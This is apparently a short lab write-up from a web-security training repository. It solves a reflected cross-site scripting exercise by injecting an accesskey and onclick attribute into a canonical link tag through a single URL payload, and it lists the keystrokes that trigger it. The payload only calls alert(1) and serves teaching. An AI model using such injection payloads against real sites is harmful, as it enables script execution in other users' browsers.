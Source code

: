 # Reflected XSS in canonical link tag

## Lab Description

## Solution

Append `/?%27accesskey=%27x%27onclick=%27alert(1)` in the url and load it once.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3d508049-08db-4a4d-85e1-dc451badb4eb)

To trigger the exploit on yourself, press one of the following key combinations:
* On Windows: ALT+SHIFT+X
* On MacOS: CTRL+ALT+X
* On Linux: Alt+X
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/eb0a7243-14e7-4741-8eef-5ce6538b330e)

